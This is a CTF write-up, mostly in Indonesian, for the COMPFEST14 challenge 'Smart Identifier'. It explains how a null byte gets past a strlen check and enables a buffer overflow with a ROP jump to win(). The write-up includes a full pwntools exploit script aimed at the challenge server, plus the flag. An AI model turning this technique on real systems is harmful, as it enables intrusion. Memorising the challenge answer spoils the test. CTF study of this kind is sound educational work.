



## Smart Identifier



## Overview & Description

Author : ReeyaDono

Points : 463 pts

This program can identify who you are (source: trust me bro!). Cmon, try it. It’s not like this program is fake or anything :D.

nc 13.212.50.63 11111

nc 13.212.50.63 11112

[libc-2.27.so](https://ctf.compfest.id/files/863d1f8398b5faf648475e028cc72373/libc-2.27.so?token=eyJ1c2VyX2lkIjo3NzMsInRlYW1faWQiOjQ4NiwiZmlsZV9pZCI6MTExfQ.Y3TiQA.gl9OF03IIvQX1iYWQhaxi2aNOds) 
[ld-2.27.so](https://ctf.compfest.id/files/c9ec4f172b6559aad92f981aaeae84d6/ld-2.27.so?token=eyJ1c2VyX2lkIjo3NzMsInRlYW1faWQiOjQ4NiwiZmlsZV9pZCI6MTEyfQ.Y3TiQA.inInTNnFzQI_a4RvpVkIoOpjO8s)
[chall](https://ctf.compfest.id/files/896e47af4fef0efc1a7a975a5e8dda0e/chall?token=eyJ1c2VyX2lkIjo3NzMsInRlYW1faWQiOjQ4NiwiZmlsZV9pZCI6MTEzfQ.Y3TiQA.a9QtPeoRwg-Kdy5v0c8efrRHwt8)


## Hints


## Step by Step

Diberikan sebuah file elf dengan vuln BOF (buffer overflow), berikut rincian dalam checksec



Coba kita disassemble fungsi main()

```c
undefined8 main(void)

{
  ulong uVar1;
  undefined auStack88 [80];
  
  setvbuf(stdout,0,2,0);
  puts("Tell me about yourself");
  gets(auStack88);
  uVar1 = strlen(auStack88);
  if (0x40 < uVar1) {
    puts("You talk too much");
    exit(0);
  }
  puts("Who are you");
  return 0;
}
```

Terdapat gets, dan strlen sebagai checker agar input tidak lebih dari 0x40 (64), untuk bypass strlen sebenarnya cukup mudah, dengan menambahkan null byte **'\x00'**.

Setelah bertemu null byte strlen akan berhenti menghitung input setelahnya, dan disinilah letak kerentanannya. Setelahnya tinggal melakukan BOF seperti biasa, lalu ROP ke fungsi win().

Full script:

```python
from pwn import *

elf = context.binary = ELF('./chall')

p = remote("13.212.50.63", 11111) 

ret = p64(0x40126e) #return address bisa dicari dari ROPgadget / gdb

payload = b'\x00'
payload += b'A' * 87 #64 + 23 bytes offset
payload += ret
payload += p64(elf.sym['win'])

p.sendline(payload)
p.interactive()
```



## Flag

**COMPFEST14{so_you_are_the_one_who_bof_me_yesterday_f944b5b6d3}**

